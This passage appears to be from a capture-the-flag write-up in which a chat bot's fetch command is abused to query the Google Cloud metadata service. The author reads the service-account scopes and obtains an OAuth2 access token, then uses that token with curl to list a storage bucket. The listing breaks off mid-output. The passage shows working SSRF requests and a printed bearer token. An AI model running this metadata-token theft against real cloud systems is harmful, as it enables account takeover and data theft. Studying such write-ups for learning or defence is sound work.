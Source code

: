 This is basically "files" and "folders" containing metadata information.

From here we can get a lot of metadata that can be useful. Project ID, Service account details, zones, instance ID, and so on.
We can also check the scopes of the current service account:
```
!meme get -su http://metadata.google.internal/0.1/meta-data/service-accounts/memeboy123@discloud-chal.iam.gserviceaccount.com
```
```json
{
    "serviceAccounts": [
        {
            "scopes": ["https://www.googleapis.com/auth/cloud-platform"],
            "serviceAccount":"memeboy123@discloud-chal.iam.gserviceaccount.com"
        }
    ]
}
```
With our current scope we can `View and manage your data across Google Cloud Platform services`. This seems pretty neat!

## OAuth2 access token

There is also another useful thing we can do with the Compute metadata API. We can create an OAuth2 access token. 
By default, access tokens have the cloud-platform scope, which allows access to all Google Cloud Platform APIs, assuming IAM also allows access.

![Access token](https://i.imgur.com/wP3GOgM.png)

This file contains our new access token that we can use in an `Authorization` header when doing HTTP requests from the outside. Now we don't
have to talk with the bot anymore, but can use this token to access the Google Cloud REST API from our own computer.

```json
{
    "access_token": "ya29.c.Kn_dB1yqILFXvNzBMncPrpCALQ-4dhzfhNjIudh6ZCmaAtBNbGWzjTn9YmBSSxUDplTVcMmcuuKcw6qpK3fc68JT2BI7wrGHLcQ4mifGQ0AyVaQZGJQ1JKQxfIF015gLdNK8SeQjdQufCnXZTvWm0GirhKB7VtmheE1-r09n9khj",
    "expires_in": 3027,
    "token_type": "Bearer"
}
```

This token will expire after a while... But we will be quick! :) Now we can try to get a list of what's inside the `epic-memez` bucket:

`curl -H "Authorization: Bearer ya29.c.Kn_dB1yqILFXvNzBMncPrpCALQ-4dhzfhNjIudh6ZCmaAtBNbGWzjTn9YmBSSxUDplTVcMmcuuKcw6qpK3fc68JT2BI7wrGHLcQ4mifGQ0AyVaQZGJQ1JKQxfIF015gLdNK8SeQjdQufCnXZTvWm0GirhKB7VtmheE1-r09n9khj" 'https://storage.googleapis.com/epic-memez'`
```xml
<ListBucketResult xmlns="http://doc.s3.amazonaws.com/2006-03-01">
  <Name>epic-memez</Name>
  <Prefix/>
  <Marker/>
  <IsTruncated>false</IsTruncated>
  <Contents>
    <Key>png.jpg</Key>
    <Generation>1599978653783100</Generation>
    <MetaGeneration>1</MetaGeneration>
    <LastModified>2020-09-13T06:30:53.782Z</LastModified>
    <ETag>"fbc570ab21631c194cb8bfb02f71aa5c"</ETag>
    <Size>59112</Size>
  </Contents>
  <Contents>
```